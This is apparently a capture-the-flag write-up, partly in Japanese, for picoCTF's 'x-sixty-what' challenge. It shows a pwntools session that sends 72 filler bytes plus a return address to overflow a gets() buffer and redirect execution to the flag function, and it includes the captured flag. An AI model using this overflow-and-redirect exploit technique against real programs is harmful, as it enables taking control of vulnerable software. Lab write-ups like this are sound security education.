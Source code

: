 # x-sixty-what:bynary Medium  
Overflow x64 code  
  
Additional details will be available after launching your challenge instance  

# Solution  
バイナリとソースコードが渡される  
 from pwn import *  
>>> p = remote("saturn.picoctf.net", 58419)  
[x] Opening connection to saturn.picoctf.net on port 58419  
[x] Opening connection to saturn.picoctf.net on port 58419: Trying 13.59.203.175  
[+] Opening connection to saturn.picoctf.net on port 58419: Done  
>>> payload = b"a"*72   
>>> payload += p64(0x40123b)  
>>>   
>>> p.sendline(payload)  
>>> p.interactive()  
[*] Switching to interactive mode  
Welcome to 64-bit. Give me a string that gets you the flag:   
picoCTF{b1663r_15_b3773r_d95e02b6}[*] Got EOF while reading in interactive  

# 考えたこと    
gets(buf);という記述からバッファオーバーフローが狙えると考えた。
今回はリターンアドレスをFLAG関数のアドレスに書き換えることを狙う。
アドレスの大きさはBUFが６４バイトがコードからわかる。また、リターンアドレスはx86_64であることから８バイトであることが分かる。
よって、７２バイト以上の文字列を入力したらバッファオーバーフローが起きる
７２バイト分Aを入力し、FLAGの開始アドレスを入力し実行したらFLAGを取得できた